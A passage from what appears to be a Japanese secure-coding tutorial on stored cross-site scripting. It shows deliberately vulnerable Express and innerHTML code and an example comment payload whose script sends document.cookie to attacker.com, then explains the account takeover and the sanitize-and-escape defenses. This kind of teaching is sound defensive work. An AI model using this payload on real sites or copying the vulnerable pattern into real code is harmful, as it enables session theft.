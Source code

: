 **👉 だからこそ、ユーザーからの入力を OS コマンドの引数として絶対に直接使わず、安全な API やライブラリを利用する対策が必要なんです。**

---

## 4\. クロスサイトスクリプティング (XSS)

### 脆弱なコードの例

バックエンドは、ユーザーからの入力を無害化（サニタイズ）せずにそのまま DB に保存します。

```typescript
// ⚠️ ユーザーの入力をそのまま保存する、脆弱なコード
app.post("/api/comments", protect, async (req, res) => {
  const { commentText } = req.body;
  const userId = req.user.id;

  // 入力されたコメントを何も処理せずにDBに保存
  const comment = await prisma.comment.create({
    data: {
      text: commentText, // ここに悪意のあるスクリプトがそのまま入る
      authorId: userId,
    },
  });
  res.status(201).json(comment);
});
```

そして、フロントエンドがそのデータを API から受け取り、エスケープ処理をせずに HTML に描画します。
`document.getElementById('comments').innerHTML += '<div>' + comment.text + '</div>';`

---

### ヤバい攻撃リクエストの例

攻撃者は、コメント投稿フォームに、ただの文章ではなく HTML タグを埋め込んで送信します。

`POST /api/comments`
**リクエストボディ:**

```json
{
  "commentText": "この商品、最高ですね！<script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script>"
}
```

#### 何が起きるか？

1.  この`<script>`タグを含んだ悪意のある文字列が、**そのままデータベースに保存されます。**
2.  他の無関係なユーザーがこのコメントが含まれるページを閲覧します。
3.  フロントエンドのコードが、DB から取得したコメントテキストを画面に表示しようとします。
4.  このとき、ブラウザは`commentText`内の`<script>`タグをただの文字列ではなく\*\*「実行すべき命令」\*\*として解釈してしまいます。
5.  スクリプトが実行され、**閲覧しているユーザーのクッキー情報（セッション ID など）が、攻撃者のサーバー(`attacker.com`)に送信されます。**
6.  攻撃者は盗んだクッキーを使ってそのユーザーになりすまし、アカウントを乗っ取ります。

**👉 だからこそ、バックエンドでは入力値を適切に処理（サニタイズ）し、フロントエンドでは出力時に必ずエスケープする、という両面からの対策が重要なんです。**
